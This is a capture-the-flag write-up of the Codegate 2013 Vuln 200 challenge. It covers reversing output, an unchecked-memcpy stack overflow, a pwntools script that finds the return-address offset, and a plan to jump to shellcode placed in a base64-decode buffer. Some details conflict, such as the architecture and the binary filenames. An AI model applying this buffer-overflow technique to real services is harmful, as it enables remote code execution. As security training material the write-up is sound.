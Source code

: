 # Codegate 2013 Vuln 200 Writeup

## Initial Analysis

It's a 32-bit binary with no mitigations.

    $ file ./94dd6790cbf7ebfc5b28cc289c480e5e
    ./94dd6790cbf7ebfc5b28cc289c480e5e: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xce5456409e1bfe207cd58c5b77ce99125d3b8d0f, stripped
    $ checksec.sh --file 94dd6790cbf7ebfc5b28cc289c480e5e
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   94dd6790cbf7ebfc5b28cc289c480e5e

Unfortunately, it doesn't appear to start out of the box:

    $ ./5b7420a5bcdc1da85bccc62dcea4c7b8
    [2]  + 11123 segmentation fault  ./5b7420a5bcdc1da85bccc62dcea4c7b8

So let's dive into the disassembly.

## Disassembly & Reversing

Right off the bat, we see that there's a simple ptrace anti-debugging check.
This doesn't actually do anything.  Ignore it.

    .text:08048ABE E8 AD FC FF FF         call    _ptrace
    .text:08048AC3 85 C0                  test    eax, eax
    .text:08048AC5 79 0C                  jns     short loc_8048AD3
    .text:08048AC7 C7 04 24 E6 9A+        mov     dword ptr [esp], offset s ; "Debugger Detected!!!"
    .text:08048ACE E8 DD FD FF FF         call    _puts
    .text:08048AD3

After creating a listener socket, the process forks immediately.
The parent attempts to log this to `./logs/pwn2log`, so let's create that directory.

    v27 = fopen("./logs/pwn2log", "a");
    fprintf(v27, "pid = %u", v28, 0);
    fprintf(v27, "\nLaunched into background (PID: %d)\n\n", v28);
    fclose(v27);

Now let's try again:

    $ gdb ./5b7420a5bcdc1da85bccc62dcea4c7b8
    gdb-peda$ r
    Starting program: /home/user/Desktop/CTF/Codegate 2013/Vulnerable/200/5b7420a5bcdc1da85bccc62dcea4c7b8 
    [New process 13200]

Great!  Let's connect and see what we're dealing with:

    $ nc localhost 7777                                                                                ⏎
    CODEGATE 2013 Util service!
    [*] md5
    [*] help
    [*] base64 encode
    [*] base64 decode
    [*] quit

Cool.  The actual logic for this menu is in `sub_8048EEB`.
What immediately stands out is an undocumented `"write"` command.

    else                                        // write
    {
      dump_file("BEFORE", dest_200);
      write(fd, "write running\nCopying bytes", 0x1Cu);
      memcpy(dest_200, buffer_190h + 5, bytes_recvd - 5);
      dump_file("AFTER", dest_200);
      write(fd, "\nDONE\nReturn to the main\n", 0x19u);
      result = 1;
    }

    int __cdecl dump_file(char *before_after, char *dest_200)
    {
      FILE *stream; // [sp+24h] [bp-24h]@1
      _DWORD *dwords; // [sp+28h] [bp-20h]@1
      signed int i; // [sp+2Ch] [bp-1Ch]@1
      dwords = dest_200;
      stream = fopen("./dump.txt", "a");
      fprintf(stream, "%s\n", before_after);
      for ( i = 0; i <= 239; i += 16 )
      {
        fprintf(stream, "%.8x: %.8x %.8x %.8x %.8x\n", dwords, *dwords, dwords[1], dwords[2], dwords[3]);
        dwords += 4;
      }
      fputc('\n', stream);
      return fclose(stream);
    }

So this simply writes raw stack data to a log file.  The first pass, the data is zeroed out, but then our data (except for the characters "read ") are copied into the buffer and dumped.

### Buffer Overflow

The issue here is that the `memcpy()` is effectively this:

    char input_buffer[0x200];
    char memcpy_buffer[200];
    int bytes_recvd = recv(fd, input_buffer, 0x200);
    memcpy(memcpy_buffer, input_buffer, bytes_recvd);

So an unchecked memcpy.  Let's see if we can blindly kill the return address, and find out how far
into our buffer we need to write to control execution.  
This example makes use of pwnies' [pwntools](https://github.com/pwnies/pwntools), see their github repo for more information.

    #!/usr/bin/env python
    from pwn import *
    r = remote('localhost', 7777)
    r.clean(1)
    r.send('write ' + de_bruijn(0x200))

And we do get a crash, with lots of the register context controlled.

    [----------------------------------registers-----------------------------------]
    EAX: 0x1
    EBX: 0x61616763 ('cgaa')
    ECX: 0xf7c39688 --> 0x9 ('\t')
    EDX: 0x19
    ESI: 0x61616863 ('chaa')
    EDI: 0x61616963 ('ciaa')
    EBP: 0x61616a63 ('cjaa')
    ESP: 0xffffc620 ("claacmaacnaacoaa"...)
    EIP: 0x61616b63 ('ckaa')

Given that our buffer is 0x200 bytes long, let's find out where the return address is overwritten
in our buffer.

    $ python -c "print hex($(cyclic -o ckaa))"
    0xef

### ASLR Bypass

NX is disabled for the binary, so the stack is executeable -- but the stack location is still randomized.  Let's look around a bit and see if we can't find anything else.

From looking at the other functionality, we see that the functionality for the `base64 decode` command just reads 0x100 bytes of Base64-encoded data, and decodes it into a static buffer within the module.  All we have to do is send our shellcode as Base64, and set the return address to this buffer.

Luckily, we don't even have to know anything about base64 logic, since the server will do everything for us (it also has an `encode` option).

## Exploitation

Two steps:

1. Get our shellcode in the base64 decode buffer
2. Send overflow to kill return address, and point it at the decode buffer

Overall, this challenge was much easier than the Vuln100.
